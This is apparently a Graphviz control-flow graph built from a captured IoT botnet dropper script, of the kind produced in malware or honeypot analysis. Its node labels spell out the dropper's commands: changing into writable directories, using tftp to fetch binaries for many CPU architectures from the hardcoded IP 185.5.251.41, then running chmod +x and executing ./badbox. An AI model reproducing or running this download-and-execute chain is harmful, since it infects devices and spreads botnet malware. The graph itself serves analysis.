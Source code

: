 digraph {
1 [label=" ulimit -n 1024"];
5 [label=" cp /bin/busybox /tmp/"];
10 [label=" cd /tmp"];
14 [label=" cd /var/run"];
18 [label=" cd /mnt"];
22 [label=" cd /root"];
26 [label=" cd /"];
30 [label=" tftp -r fyfa.mips -g 185.5.251.41"];
37 [label=" cat fyfa.mips "];
43 [label=" chmod +x *"];
48 [label=" ./badbox"];
51 [label=" cd /tmp"];
55 [label=" cd /var/run"];
59 [label=" cd /mnt"];
63 [label=" cd /root"];
67 [label=" cd /"];
71 [label=" tftp -r fyfa.mpsl -g 185.5.251.41"];
78 [label=" cat fyfa.mpsl "];
84 [label=" chmod +x *"];
89 [label=" ./badbox"];
92 [label=" cd /tmp"];
96 [label=" cd /var/run"];
100 [label=" cd /mnt"];
104 [label=" cd /root"];
108 [label=" cd /"];
112 [label=" tftp -r fyfa.sh4 -g 185.5.251.41"];
119 [label=" cat fyfa.sh4 "];
125 [label=" chmod +x *"];
130 [label=" ./badbox"];
133 [label=" cd /tmp"];
137 [label=" cd /var/run"];
141 [label=" cd /mnt"];
145 [label=" cd /root"];
149 [label=" cd /"];
153 [label=" tftp -r fyfa.x86 -g 185.5.251.41"];
160 [label=" cat fyfa.x86 "];
166 [label=" chmod +x *"];
171 [label=" ./badbox"];
174 [label=" cd /tmp"];
178 [label=" cd /var/run"];
182 [label=" cd /mnt"];
186 [label=" cd /root"];
190 [label=" cd /"];
194 [label=" tftp -r fyfa.arm -g 185.5.251.41"];
201 [label=" cat fyfa.arm "];
207 [label=" chmod +x *"];
212 [label=" ./badbox"];
215 [label=" cd /tmp"];
219 [label=" cd /var/run"];
223 [label=" cd /mnt"];
227 [label=" cd /root"];
231 [label=" cd /"];
235 [label=" tftp -r fyfa.i686 -g 185.5.251.41"];
242 [label=" cat fyfa.i686 "];
248 [label=" chmod +x *"];
253 [label=" ./badbox"];
256 [label=" cd /tmp"];
260 [label=" cd /var/run"];
264 [label=" cd /mnt"];
268 [label=" cd /root"];
272 [label=" cd /"];
276 [label=" tftp -r fyfa.pcc -g 185.5.251.41"];
283 [label=" cat fyfa.pcc "];
289 [label=" chmod +x *"];
294 [label=" ./badbox"];
297 [label=" cd /tmp"];
301 [label=" cd /var/run"];
305 [label=" cd /mnt"];
309 [label=" cd /root"];
313 [label=" cd /"];
317 [label=" tftp -r fyfa.i586 -g 185.5.251.41"];
324 [label=" cat fyfa.i586 "];
330 [label=" chmod +x *"];
335 [label=" ./badbox"];
338 [label=" cd /tmp"];
342 [label=" cd /var/run"];
346 [label=" cd /mnt"];
350 [label=" cd /root"];
354 [label=" cd /"];
358 [label=" tftp -r fyfa.m68k -g 185.5.251.41"];
365 [label=" cat fyfa.m68k "];
371 [label=" chmod +x *"];
376 [label=" ./badbox"];
379 [label=" cd /tmp"];
383 [label=" cd /var/run"];
387 [label=" cd /mnt"];
391 [label=" cd /root"];
395 [label=" cd /"];
399 [label=" tftp -r fyfa.spc -g 185.5.251.41"];
406 [label=" cat fyfa.spc "];
412 [label=" chmod +x *"];
417 [label=" ./badbox"];
420 [label=" cd /tmp"];
424 [label=" cd /var/run"];
428 [label=" cd /mnt"];
432 [label=" cd /root"];
436 [label=" cd /"];
440 [label=" tftp -r fyfa.pcc -g 185.5.251.41"];
447 [label=" cat fyfa.pcc "];
453 [label=" chmod +x *"];
458 [label=" ./badbox"];
305 -> 309;
305 -> 317;
96 -> 100;
96 -> 112;
417 -> 420;
178 -> 182;
178 -> 194;
365 -> 371;
330 -> 335;
14 -> 18;
14 -> 30;
428 -> 432;
428 -> 440;
235 -> 242;
264 -> 268;
264 -> 276;
174 -> 178;
174 -> 194;
71 -> 78;
436 -> 440;
346 -> 350;
346 -> 358;
100 -> 104;
100 -> 112;
153 -> 160;
289 -> 294;
18 -> 22;
18 -> 30;
335 -> 338;
48 -> 51;
432 -> 436;
432 -> 440;
358 -> 365;
424 -> 428;
424 -> 440;
294 -> 297;
350 -> 354;
350 -> 358;
212 -> 215;
268 -> 272;
268 -> 276;
313 -> 317;
223 -> 227;
223 -> 235;
130 -> 133;
248 -> 253;
186 -> 190;
186 -> 194;
297 -> 301;
297 -> 317;
104 -> 108;
104 -> 112;
78 -> 84;
242 -> 248;
22 -> 26;
22 -> 30;
37 -> 43;
317 -> 324;
133 -> 137;
133 -> 153;
354 -> 358;
272 -> 276;
399 -> 406;
190 -> 194;
301 -> 305;
301 -> 317;
108 -> 112;
219 -> 223;
219 -> 235;
383 -> 387;
383 -> 399;
207 -> 212;
166 -> 171;
137 -> 141;
137 -> 153;
125 -> 130;
447 -> 453;
55 -> 59;
55 -> 71;
119 -> 125;
194 -> 201;
89 -> 92;
276 -> 283;
84 -> 89;
453 -> 458;
387 -> 391;
387 -> 399;
112 -> 119;
391 -> 395;
391 -> 399;
141 -> 145;
141 -> 153;
51 -> 55;
51 -> 71;
59 -> 63;
59 -> 71;
43 -> 48;
1 -> 5;
5 -> 10;
379 -> 383;
379 -> 399;
160 -> 166;
253 -> 256;
309 -> 313;
309 -> 317;
420 -> 424;
420 -> 440;
227 -> 231;
227 -> 235;
338 -> 342;
338 -> 358;
145 -> 149;
145 -> 153;
283 -> 289;
406 -> 412;
63 -> 67;
63 -> 71;
324 -> 330;
201 -> 207;
171 -> 174;
182 -> 186;
182 -> 194;
395 -> 399;
256 -> 260;
256 -> 276;
92 -> 96;
92 -> 112;
30 -> 37;
412 -> 417;
376 -> 379;
10 -> 14;
10 -> 30;
231 -> 235;
342 -> 346;
342 -> 358;
149 -> 153;
260 -> 264;
260 -> 276;
67 -> 71;
26 -> 30;
371 -> 376;
440 -> 447;
215 -> 219;
215 -> 235;
}
